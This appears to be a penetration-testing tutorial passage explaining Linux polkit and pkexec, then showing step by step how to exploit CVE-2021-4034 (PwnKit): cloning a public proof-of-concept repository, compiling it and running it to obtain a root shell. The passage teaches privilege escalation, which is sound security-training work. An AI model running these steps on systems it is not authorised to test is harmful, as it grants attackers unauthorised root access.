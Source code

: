 PolicyKit (polkit) is an authorisation service on Linux-based operating systems that allows user software and system components to communicate with each other if the user software is authorized to do so. To check whether the user software is authorised for this instruction, polkit is asked. It is possible to set how permissions are granted by default for each user and application. For example, for each user, it can be set whether the operation should be generally allowed or forbidden, or authorisation as an administrator or as a separate user with a one-time, process-limited, session-limited, or unlimited validity should be required. For individual users and groups, the authorisations can be assigned individually.

Polkit works with two groups of files.

1. actions/policies (`/usr/share/polkit-1/actions`)
2. rules (`/usr/share/polkit-1/rules.d`)

Polkit also has `local authority` rules which can be used to set or remove additional permissions for users and groups. Custom rules can be placed in the directory `/etc/polkit-1/localauthority/50-local.d` with the file extension `.pkla`.

PolKit also comes with three additional programs:

- `pkexec` - runs a program with the rights of another user or with root rights
- `pkaction` - can be used to display actions
- `pkcheck` - this can be used to check if a process is authorized for a specific action

The most interesting tool for us, in this case, is `pkexec` because it performs the same task as `sudo` and can run a program with the rights of another user or root.

```shell-session
cry0l1t3@nix02:~$ # pkexec -u <user> <command>
cry0l1t3@nix02:~$ pkexec -u root id

uid=0(root) gid=0(root) groups=0(root)
```

In the `pkexec` tool, the memory corruption vulnerability with the identifier [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034) was found, also known as [Pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034) and also leads to privilege escalation. This vulnerability was also hidden for more than ten years, and no one can precisely say when it was discovered and exploited. Finally, in November 2021, this vulnerability was published and fixed two months later.

To exploit this vulnerability, we need to download a [PoC](https://github.com/arthepsy/CVE-2021-4034) and compile it on the target system itself or a copy we have made.

```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/arthepsy/CVE-2021-4034.git
cry0l1t3@nix02:~$ cd CVE-2021-4034
cry0l1t3@nix02:~$ gcc cve-2021-4034-poc.c -o poc
```

Once we have compiled the code, we can execute it without further ado. After the execution, we change from the standard shell (`sh`) to Bash (`bash`) and check the user's IDs.

```shell-session
cry0l1t3@nix02:~$ ./poc

# id

uid=0(root) gid=0(root) groups=0(root)
```

